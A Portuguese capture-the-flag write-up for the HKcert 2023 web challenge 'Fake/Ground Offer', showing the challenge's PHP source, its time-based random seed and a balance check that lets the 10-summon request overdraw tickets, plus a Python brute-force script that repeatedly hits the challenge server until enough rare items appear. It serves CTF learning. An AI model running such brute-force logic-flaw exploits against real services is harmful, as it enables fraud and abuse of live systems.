 # ctf_fake-ground

Challenge da categoria Web do CTF HKcert 2023

![IMG1](https://github.com/dahiwas/ctf_fake-ground/blob/main/Imagens/IMG1.png)

O link que o chall nos fornecia nos direcionava para:

![IMG2](https://github.com/dahiwas/ctf_fake-ground/blob/main/Imagens/IMG2.png)

Basicamente o challenge dizia para conseguirmos sumonar/tirar 20 tickets UR (Ultra Rare) SR (Super Rare) de um sistema gacha.

Tínhamos dois botões para cumprir esse feito, Summon 1 ou Summon 10 que faziam as seguintes requisições:
![IMG3](https://github.com/dahiwas/ctf_fake-ground/blob/main/Imagens/IMG3.png)

Dessa forma, respectivamente, sumonávamos 1 aleatório ou então 10 de uma vez só.

Além disso, o desafio nos fornecia o código fonte do site:
```
<?php 
session_start();

if(isset($_GET["-s"])){
    show_source(__FILE__);
    exit();
}

include "secret.php";

if(!isset($_SESSION["balance"])){
    $_SESSION["balance"] = 20;
    $_SESSION["inventory"] = Array("UR" => 0, "SSR" => 0, "SR" => 0, "R" => 0, "N" => 0);
}

if(isset($_GET["sellacc"])){
    if($_SESSION["inventory"]["UR"]+$_SESSION["inventory"]["SSR"]>=20){
        exit("$flag");
    }else{
        exit('$flag');
    }
}

$gacha_result = "";
$seed = (time() - $pin) % 3600 + 1;  //cannot use zero as seed

if(isset($_GET["gacha1"])){
    if($_SESSION["balance"] < 1){
        $gacha_result = "Insufficient Summon Tickets!";
    }else{
        $_SESSION["balance"] -= 1;
        $gacha_result = "You got ".implode(", ",gacha(1,$seed));
    }
}elseif(isset($_GET["gacha10"])){
    if($_SESSION["balance"] < 1){
        $gacha_result = "Insufficient Summon Tickets!";
    }else{
        $_SESSION["balance"] -= 10;
        $gacha_result = "You got ".implode(", ",gacha(10,$seed));
    }
}

//Ultra Secure Seedable Random (USSR) gacha
function gacha($n,$s){
    $out = [];

    for($i=1;$i<=$n;$i++){
        $x = sin($i*$s);
        $r = $x-floor($x);
        $out[] = lookup($r);
    }
    return $out;
}

function lookup($r){
    if($r <= 0.001){
        $_SESSION["inventory"]["UR"] += 1;
        return "UR";
    }elseif($r <= 0.004){
        $_SESSION["inventory"]["SSR"] += 1;
        return "SSR";
    }elseif($r <= 0.009){
        $_SESSION["inventory"]["SR"] += 1;
        return "SR";
    }elseif($r <= 0.016){
        $_SESSION["inventory"]["R"] += 1;
        return "R";
    }else{
        $_SESSION["inventory"]["N"] += 1;
        return "N";
    }
}
?>
<html>
<head>
    <title>Fake/Ground Offer</title>
</head>
<body>
    <!-- This is the best frontend we can provide given the budget provided -->
    <h1>Fake/Ground Offer</h1>
    <p>Welcome, Master. Your ID is <?=session_id();?></p>
    <p>Current Balance: <?=$_SESSION["balance"];?> Summon Ticket(s)</p>
    <p>Current Inventory: <?php print_r($_SESSION["inventory"]);?></p>
    <form><input type=submit name="gacha1" value="Summon 1"></form>
    <form><input type=submit name="gacha10" value="Summon 10"></form>
    <h2><?=$gacha_result;?></h2>
    <hr /><p><a href="?-s">Show Source</a></p>
</body>
</html>
```
Vale ressaltar que receberíamos nossa flag no momento em que enviassemos uma requisição, ao possuirmos no inventário os 20 tickets requeridos:
```
if(isset($_GET["sellacc"])){
    if($_SESSION["inventory"]["UR"]+$_SESSION["inventory"]["SSR"]>=20){
        exit("$flag");
    }else{
        exit('$flag');
    }
}
```
E também, a seed que gerava a aleatoriedade era dada pelo tempo:
```
$seed = (time() - $pin) % 3600 + 1;  //cannot use zero as seed
```
A partir daqui tínhamos uma ideia de que poderia ser resolvido por força bruta [brute force], e para ajudar, vimos que o código base do site, não fazia uma verificação adequada caso apertássemos no GACHA 10:
```
if(isset($_GET["gacha1"])){
    if($_SESSION["balance"] < 1){
        $gacha_result = "Insufficient Summon Tickets!";
    }else{
        $_SESSION["balance"] -= 1;
        $gacha_result = "You got ".implode(", ",gacha(1,$seed));
    }
}elseif(isset($_GET["gacha10"])){
    if($_SESSION["balance"] < 1){
        $gacha_result = "Insufficient Summon Tickets!";
    }else{
        $_SESSION["balance"] -= 10;
        $gacha_result = "You got ".implode(", ",gacha(10,$seed));
    }
}
```
Ou seja, poderiamos, por tentativa, realizar 29 retiradas, ao invés de 20.

Então utilizamos o algoritmo:
Algoritmo de BruteForce de refêrencia: 
https://siunam321.github.io/ctf/HKCERT-CTF-2023/web/Fake-Ground-Offer/
```
import asyncio
import aiohttp
from bs4 import BeautifulSoup
from time import sleep
import re

async def main():
    while True:
        # brute force it with 0.3 seconds delay, 
        # so we won't beat the server to death
        sleep(0.3)
        async with aiohttp.ClientSession() as sess:
            for _ in range(9):
                resp = await sess.get(URL_GACHA1)
                response_body = await resp.text()
            for _ in range(2):
                resp = await sess.get(URL_GACHA10)
                response_body = await resp.text()

            soup = BeautifulSoup(response_body, 'html.parser')
            pTags = soup.find_all('p')
            sessionId = pTags[0].text
            inventory = pTags[2].text

            sessionIdMatch = re.search(r'Your ID is ([a-fA-F0-9]+)', sessionId)
            urMatch = re.search(r'\[UR\] => (\d+)', inventory)
            ssrMatch = re.search(r'\[SSR\] => (\d+)', inventory)

            idValue = sessionIdMatch.group(1)
            urValue = int(urMatch.group(1))
            ssrValue = int(ssrMatch.group(1))

            urSSRValue = urValue + ssrValue
            print(f'[*] Trying... Session ID: {idValue}, UR + SSR value: {urSSRValue}', end='\r')
            if urSSRValue >= 20:
                print('\n[+] We got UR + SSR >= 20!!')
                print(f'[+] Session ID: {idValue}')
                print(f'[+] UR value: {urValue}')
                print(f'[+] SSR value: {ssrValue}')
                exit(0)

if __name__ == '__main__':
    URL_GACHA10 = 'http://chal-a.hkcert23.pwnable.hk:28137/?gacha10=blah'
    URL_GACHA1 = 'http://chal-a.hkcert23.pwnable.hk:28137/?gacha1=blah'

    asyncio.run(main())
```
Depois de 7horas deixando o código rodar:


Chegamos a flag:


